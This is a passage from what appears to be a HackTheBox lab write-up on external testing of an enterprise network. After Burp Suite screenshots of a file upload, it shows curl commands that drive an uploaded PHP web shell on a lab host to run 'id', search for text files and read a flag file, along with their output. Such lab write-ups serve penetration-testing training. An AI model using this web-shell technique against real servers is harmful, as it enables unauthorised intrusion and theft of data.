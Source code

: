 ![Burp Suite - Upload POST 1](./assets/screenshots/attacking_enterprise_networks_external_testing_13.png)

![Burp Suite - Upload POST 2](./assets/screenshots/attacking_enterprise_networks_external_testing_14.png)

```
┌──(nabla㉿kali)-[~]
└─$ curl -s http://dev.inlanefreight.local/uploads/shell.php?cmd=id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

```
┌──(nabla㉿kali)-[~]
└─$ curl -s 'http://dev.inlanefreight.local/uploads/shell.php?cmd=find+/var/www/html+-type+f+-name+*.txt+2>+/dev/null'

/var/www/html/flag.txt
```

```
┌──(nabla㉿kali)-[~]
└─$ curl -s http://dev.inlanefreight.local/uploads/shell.php?cmd=cat+/var/www/html/flag.txt

HTB{57c7f***************************} 📌
```
